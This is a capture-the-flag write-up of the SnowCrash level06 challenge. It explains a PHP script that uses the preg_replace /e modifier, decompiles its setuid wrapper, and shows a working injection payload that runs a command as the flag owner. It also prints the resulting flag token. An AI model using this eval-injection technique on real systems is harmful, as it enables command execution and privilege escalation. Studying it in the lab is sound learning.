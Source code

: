 # Flag06

```
level06@SnowCrash:~$ ls -la
total 24
dr-xr-x---+ 1 level06 level06  140 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level06 level06  220 Apr  3  2012 .bash_logout
-r-x------  1 level06 level06 3518 Aug 30  2015 .bashrc
-rwsr-x---+ 1 flag06  level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06  level06  356 Mar  5  2016 level06.php
-r-x------  1 level06 level06  675 Apr  3  2012 .profile
level06@SnowCrash:~$ cat level06.php
#!/usr/bin/php
<?php
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
$r = x($argv[1], $argv[2]); print $r;
?>
level06@SnowCrash:~$
```
This PHP code snippet consists of two functions and a main script that processes input arguments:

1. Function `y($m)`:
    
    - This function takes a string `$m` as input.
    - It replaces all occurrences of a dot `.` with the string `" x "`.
    - It then replaces all occurrences of the `@` symbol with the string `" y"`.
    - Finally, it returns the modified string.
    
2. Function `x($y, $z)`:
    
    - This function takes two arguments: `$y` and `$z`.
    - It reads the contents of a file specified by the path in `$y` using `file_get_contents()`.
    - It uses a regular expression with the `/e` modifier to perform a search and replace operation on the content of the file.
        
        - The regular expression `"/([x (.*)])/e"` matches patterns like `[x something]`.
        - For each match, it calls the function `y()` with the captured text inside `[x ...]`.  `\2` will refer to the content captured by the second set of parentheses, which in this case is represented by `(.*)`. This allows the script to extract and manipulate specific parts of the matched pattern within the replacement function.
        - The result is then used to replace the matched pattern.
        
    - It further replaces `[` and `]` characters with `(` and `)` respectively.
    - The modified content is returned.
    
3. Main Script:
    
    - The main script initializes a variable `$r` by calling function `x()` with arguments from command line input (`$argv[1]` and `$argv[2]`).
    - It then prints out the result stored in `$r`.

Overall, this code seems to be designed to read a file, process its content using regular expressions and custom functions, and then output the modified content. However, using the [`/e` modifier](https://stackoverflow.com/questions/16986331/can-someone-explain-the-e-regex-modifier) in regular expressions for evaluation allows malicious code to be executed and is therefore deprecated in PHP and should be avoided due to security risks.

To test and to better analyze the executable file, I created the folder path `\home\user\level06` in my shell session and copied the `level06.php` file there.

This is the `main()` function of the executable decompiled with Ghidra:
```
undefined4 main(undefined4 param_1,int param_2,char **param_3)

{
  int iVar1;
  char **__envp;
  char *__ptr;
  __gid_t __rgid;
  __uid_t __ruid;
  char *local_34;
  char *local_30;
  char *local_2c;
  char *local_28;
  undefined4 local_24;
  undefined4 *local_18;
  
  __envp = param_3;
  iVar1 = param_2;
  local_18 = &param_1;
  __ptr = strdup("");
  local_28 = strdup("");
  if (*(int *)(iVar1 + 4) != 0) {
    free(__ptr);
    __ptr = strdup(*(char **)(iVar1 + 4));
    if (*(int *)(iVar1 + 8) != 0) {
      free(local_28);
      local_28 = strdup(*(char **)(iVar1 + 8));
    }
  }
  __rgid = getegid();
  __ruid = geteuid();
  setresgid(__rgid,__rgid,__rgid);
  setresuid(__ruid,__ruid,__ruid);
  local_34 = "/usr/bin/php";
  local_30 = "/home/user/level06/level06.php";
  local_24 = 0;
  local_2c = __ptr;
  execve("/usr/bin/php",&local_34,__envp);
  return 0;
}

```
As with the [Flag03](#Flag03) challenge, the goal here is to make the program execute a command since each command is executed with the permissions of the owner, the flag06 user.

Since the text between [backticks](https://unix.stackexchange.com/questions/48392/understanding-backtick) in bash is executed and replaced by the output of the command, something like this made it react:
```
level06@SnowCrash:~$ cat /var/tmp/shell.php
[x ${`getflag`}]
level06@SnowCrash:~$ ./level06 /var/tmp/shell.php
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1

level06@SnowCrash:~$ su level07
Password:
level07@SnowCrash:~$
